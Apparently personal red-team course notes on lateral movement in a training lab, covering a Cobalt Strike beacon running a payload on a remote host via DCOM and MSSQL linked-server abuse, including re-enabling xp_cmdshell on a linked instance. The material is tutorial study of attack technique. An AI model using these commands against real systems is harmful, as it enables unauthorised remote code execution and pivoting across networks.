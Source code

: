 ```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
Completed

beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```


## MSSQL Lateral Movement

---

SQL Servers have a concept called "links", which allows a database instance to access data from an external source.  MS SQL supports multiple sources, including other MS SQL Servers.  These can also be practically anywhere - including other domains, forests or in the cloud.

We can discover any links that the current instance has:

``` sql
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3cf/9ba/acf/link.png)

This shows that SQL-2 has a link to SQL-1.  The SQLRecon `links` module could also be used.

[[SQLRecon#Enumerate Links for an Instance]]

We can send SQL queries to linked servers using _OpenQuery_:

``` sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

The use of double and single quotes is important when using OpenQuery.

Or with SQLRecon.

[[SQLRecon#Query SQL Database#Query Linked Servers]]

We can also check the xp_cmdshell status with `/c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"`

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:

``` sql
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

We can query SQL-1 to find out if it has any further links.

[[SQLRecon#Enumerate Linked Servers for More Links]]

In this case it does not, but manually querying each server to find additional links can be cumbersome and time-consuming.  Instead, `Get-SQLServerLinkCrawl` can automatically crawl all available links and shows you a bit of information for each instance.
